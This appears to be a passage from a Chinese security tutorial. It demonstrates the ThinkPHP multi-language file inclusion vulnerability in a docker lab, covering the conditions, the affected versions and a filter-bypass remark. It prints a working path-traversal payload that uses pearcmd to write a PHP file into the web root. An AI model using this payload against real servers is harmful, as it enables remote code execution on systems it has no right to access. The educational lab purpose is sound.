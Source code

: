 发现对 `| ` 限制不严格，其包含空格，可以使用不添加空格绕过：

![image-20231105110831156](http://img.wukaipeng.com/2023/11/05-110831-image-20231105110831156.png)

## ThinkPHP

Thinkphp 是一个免费开源的，快速、简单的面向对象的轻量级 PHP 开发框架，是为了敏捷 Web 应用开发和简化企业应用开发而诞生的。

2022 年 12 月，ThinkPHP 披露出在开启多语言功能的情况下存在文件包含漏洞，攻击者可以通过 get、header、cookie 等位置传入参数，实现目录穿越 + 文件包含，通过 pearcmd 文件包含这个 trick 即可实现 RCE。

默认情况下，系统只会加载默认语言包，如果需要多语言自动侦测及自动切换，需要在全局的中间件定义文件中添加中间件定义，因此只有启用多语言并且使用存在漏洞的版本时才存在漏洞。

🔑 漏洞利用条件：

1. 多语言开启
2. 安装 Pear 库
3. 知道 pearcmd.PHP 路径
4. register_argc_argv = on

💥 漏洞范围：

1. 6.0.1 < ThinkPHP ≤ 6.0.13
2. 5.1.0 < ThinkPHP ≤ 5.1.8
3. 5.0.0 < ThinkPHP ≤ 5.0.12



### 环境搭建

安装 ThinkPHP：·

```bash
docker pull vulfocus/thinkphp:6.0.12
docker run -d -p 8080:80 --name=thinkphp vulfocus/thinkphp:6.0.12
```

访问 `http://YOUR_IP_ADDRESS:PORT/public/`

![](http://img.wukaipeng.com/2023/11/05-121646-te4OUO-image-20231105121646273.png)

### 演示

传入 `?lang=../../../../../../../../usr/local/lib/php/pearcmd`，出现该错误说明漏洞存在：

![](http://img.wukaipeng.com/2023/11/05-134533-CRlH1y-image-20231105134533378.png)

传入 EXP（Exploit，利用系统漏洞进行攻击的程序）：

`?lang=../../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=phpinfo()?>+/var/www/html/wukaipeng.php`

![](http://img.wukaipeng.com/2023/11/05-135319-3PXoxe-image-20231105135319002.png)

写入成功，访问该文件：

![](http://img.wukaipeng.com/2023/11/05-135402-z1lqJZ-image-20231105135402344.png)
